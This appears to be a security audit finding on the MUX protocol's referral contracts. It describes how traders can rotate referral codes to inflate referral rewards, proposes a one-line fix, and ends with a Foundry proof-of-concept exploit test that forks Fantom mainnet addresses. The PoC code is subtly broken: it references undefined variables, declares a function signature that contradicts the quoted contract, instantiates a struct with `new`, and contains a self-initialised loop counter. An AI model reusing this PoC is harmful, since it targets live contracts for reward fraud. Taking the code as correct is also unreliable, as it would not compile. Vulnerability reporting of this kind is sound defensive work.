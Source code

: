 # A gang of traders can round-robin multiple referral codes while tricking multiple accounting of trading volume generated by referral program or upgrading multiple referrer addresses to tier-2 or tier-3 to inflate referral rewards.

## Bug Description

`OrderBook.placePositionOrder3()` has referral code parameter which allows to change referral code associated with `msg.sender`.

https://github.com/mux-world/mux-protocol/blob/main/contracts/orderbook/OrderBook.sol#L153-L155
```
  if (referralCode != bytes32(0) && _storage.referralManager != address(0)) {
      IReferralManager(_storage.referralManager).setReferrerCodeFor(accountOwner, referralCode);
  }
```

https://github.com/mux-world/mux-protocol/blob/main/contracts/referral/ReferralManager.sol#L110-L117
```
  function setReferrerCodeFor(address trader, bytes32 referralCode) external {
        require(isHandler[msg.sender], "ReferralManager::setReferrerCodeFor::onlyHandler");
        if (referralCodeOf[trader] != referralCode) {
            referralCodeOf[trader] = referralCode;
            lastUpdatedTime[trader] = block.timestamp;
            emit SetReferralCode(trader, referralCode);
        }
    }   
```

Also, anyone can create referral code by calling `ReferralStorage.setReferrerCode()`.

https://github.com/mux-world/mux-protocol/blob/main/contracts/referral/ReferralManager.sol#L104-L109
```
    function setReferrerCode(bytes32 referralCode) external {
        referralCodeOf[msg.sender] = referralCode;
        lastUpdatedTime[msg.sender] = block.timestamp;
        emit SetReferralCode(msg.sender, referralCode);
    }
```

It allows a trader to be associated with multiple referrers during specific timeframe , thus tricking into multiple accounting of traffic generated by referral program or upgrading mutliple referrer codes into tier-2 or tier-3.

## Impact
A gang of traders can amplify referrer rewards multiple times, these inflated rewards can be shared among them.

It will cause protocol insolvency, dilution or loss of other user's rewards.

## Recommendation
Referral code should not be changed once associated with one address.

https://github.com/mux-world/mux-protocol/blob/main/contracts/referral/ReferralManager.sol#L110-L117
```
  function setReferrerCodeFor(address trader, bytes32 referralCode) external {
        require(isHandler[msg.sender], "ReferralManager::setReferrerCodeFor::onlyHandler");
+       require(referralCodeOf[trader] == bytes32(0), "ReferralManager::setReferrerCodeFor::referralCodeAlreadySet");
        if (referralCodeOf[trader] != referralCode) {
            referralCodeOf[trader] = referralCode;
            lastUpdatedTime[trader] = block.timestamp;
            emit SetReferralCode(trader, referralCode);
        }
    }   
```

## Proof of Concept
```
pragma solidity 0.8.10;

import "forge-std/Test.sol";

interface OrderBook {
  function placePositionOrder3(
        bytes32 subAccountId,
        uint96 collateralAmount, // erc20.decimals
        uint96 size, // 1e18
        uint96 price, // 1e18
        uint8 profitTokenId,
        uint8 flags,
        uint32 deadline, // 1e0
        bytes32 referralCode,
        PositionOrderExtra memory extra
    ) external;
}

interface ReferralManager {
  function setReferrerCodeFor(bytes32 _code) external;
}

struct PositionOrderExtra {
    uint96 tpPrice; // take-profit price. decimals = 18. only valid when flags.POSITION_TPSL_STRATEGY.
    uint96 slPrice; // stop-loss price. decimals = 18. only valid when flags.POSITION_TPSL_STRATEGY.
    uint8 tpslProfitTokenId; // only valid when flags.POSITION_TPSL_STRATEGY.
    uint32 tpslDeadline; // only valid when flags.POSITION_TPSL_STRATEGY.
}

contract ContractTest is Test {
  OrderBook          constant orderBook = OrderBook(0x0c30b10462CdED51C3CA31e7C51019b7d25a965B);
  ReferralManager    constant referralManager = ReferralManager(0x3EfE4639eb082e22209fee29aAbaf14Ade5bF82B);

  using SafeERC20 for IERC20Metadata;

  function setUp() public {
    vm.createSelectFork("fantom"); 
  }

  function testMUX() public {
    address[] memory path = new address[](2);
    path[0] = weth;
    path[1] = wbtc;

    PositionOrderExtra memory extra = new PositionOrderExtra();

    console.log("Creating multiple referral codes..");
    for (uint256 i = 1; i <= 3; i++) {
      bytes32 referralCode = bytes32(i);

      vm.startPrank(address(uint160(i)));
      refStorage.setReferrerCodeFor(referralCode);
      
      vm.stopPrank();
    }
    
    for (uint256 i = 1; i <= 3; i++) {
      vm.startPrank(address(uint160(i)));

      console.log("Round-robin among referral codes..");
      for (uint256 j = j; j <= 3; j++) {
        bytes32 referralCode = bytes32(j);
        orderBook.placePositionOrder3(
            bytes32(i),
            1 ether,1 ether,1 ether, 0, 132, 1 days, 
            referralCode,
            extra
        );
      }
      vm.stopPrank();
    }
  }
}
```